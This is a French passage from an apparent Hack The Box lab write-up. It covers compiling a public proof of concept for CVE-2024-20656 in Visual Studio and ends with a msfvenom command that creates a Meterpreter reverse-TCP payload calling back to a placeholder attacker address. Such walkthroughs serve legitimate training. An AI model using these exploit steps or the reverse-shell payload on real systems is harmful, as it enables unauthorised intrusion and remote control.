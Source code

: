 ![vs installer](/images/HTB-Compiled/vs_installer.png)

Après l'avoir ouvert, sélectionnez `Modify`.

![vs modify](/images/HTB-Compiled/vsstudio_modify.png)

Ensuite, allez dans la section `Individual Components`, recherchez `v142`, sélectionnez `MSVC v142 - VS 2019 C++ x64/x86 build tools` et cliquez sur `Modify` pour installer les composants.

![v142 build tools](/images/HTB-Compiled/v142.png)

Clonez le dépôt du PoC, lancez Visual Studio et sélectionnez `Open a project or solution` (Ouvrir un projet ou une solution). Trouvez le répertoire `CVE-2024-20656` et ouvrez le fichier `Expl.sln` dans le répertoire `Expl`. Vous devriez maintenant avoir tous les fichiers ouverts dans le menu `Solution Explorer`.

![Solution Explorer](/images/HTB-Compiled/SE_menu.png)

Faites un clic droit sur le menu `Solution Explorer` et sélectionnez `Properties` en bas. Vous pouvez aussi utiliser `Alt + Enter` pour faire la même chose. 

Sous `Configuration Properties` -> `General`, configurez le `Platform Toolset` sur `Visual Studio 2019 (v142)` et cliquez sur `Apply`.

![v142 apply](/images/HTB-Compiled/v142_apply.png)

Cliquez maintenant sur `main.cpp` pour commencer à le modifier. Voici la première modification:

![WCHAR modification](/images/HTB-Compiled/WCHAR_modification.png)

Et voici le deuxième:

> Vous pouvez choisir n'importe quel emplacement pour le fichier malveillant, mais assurez-vous que vous avez toutes les permissions sur le répertoire.

![void cb1 modification](/images/HTB-Compiled/cb1_modification.png)

Pour compiler le projet, cliquez sur `Build` dans le menu tout en haut -> `Batch Build` -> cochez `Release|x64` -> et cliquez sur `Build`.

![compiling process](/images/HTB-Compiled/compiling.png)

Une fois la compilation réussie, nous avons un nouveau répertoire appelé `x64` et à l'intérieur du répertoire `Release` se trouve notre fichier `Expl.exe`.

![Expl.exe file](/images/HTB-Compiled/expl_exe.png)

Créez le fichier malveillant `rev.exe` avec msfvenom.

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=YOUR_IP lport=PORT_NUMBER -f exe -o rev.exe
```

![malicious exe file](/images/HTB-Compiled/bad_exe.png)
